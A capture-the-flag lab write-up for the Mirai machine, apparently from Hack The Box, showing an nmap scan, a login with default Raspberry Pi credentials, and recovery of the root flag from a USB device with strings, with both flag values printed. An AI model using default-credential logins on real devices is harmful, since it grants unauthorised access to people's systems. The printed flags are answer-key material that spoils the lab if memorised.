


# Mirai

## SYN Scan
```
nmap -sS -sV -O -p- -v -Pn -T4 -oA nmap/full_syn 10.10.10.48

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp    open  domain  dnsmasq 2.76
80/tcp    open  http    lighttpd 1.4.35
1600/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Pi-hole Admin Panel


## Plex Login Page


## Default Raspberry Pi Credentials
```
pi: raspberry
```

```
pi@raspberrypi:~ $ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```

## The User Flag
```
pi@raspberrypi:~/Desktop $ ls -la
total 16
drwxr-xr-x  3 pi pi 4096 Aug 13  2017 .
drwxr-xr-x 21 pi pi 4096 Mar 28 15:31 ..
drwxr-xr-x  4 pi pi 4096 Aug 13  2017 Plex
-rw-r--r--  1 pi pi   32 Aug 13  2017 user.txt
```

```
pi@raspberrypi:~/Desktop $ cat user.txt
ff837707441b257a20e32199d7c8838d
```

## The Root Flag
```
root@raspberrypi:~# ls -la
total 22
drwx------  3 root root 4096 Aug 27  2017 .
drwxr-xr-x 35 root root 4096 Aug 14  2017 ..
-rw-------  1 root root  549 Dec 24  2017 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
drwx------  2 root root 4096 Aug 27  2017 .ssh
-rw-r--r--  1 root root   76 Aug 14  2017 root.txt
```

```
root@raspberrypi:~# cat root.txt
I lost my original root.txt! I think I may have a backup on my USB stick...
```

```
root@raspberrypi:/media/usbstick# ls -la
total 18
drwxr-xr-x 3 root root  1024 Aug 14  2017 .
drwxr-xr-x 3 root root  4096 Aug 14  2017 ..
-rw-r--r-- 1 root root   129 Aug 14  2017 damnit.txt
drwx------ 2 root root 12288 Aug 14  2017 lost+found
root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

```
root@raspberrypi:/media/usbstick# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```
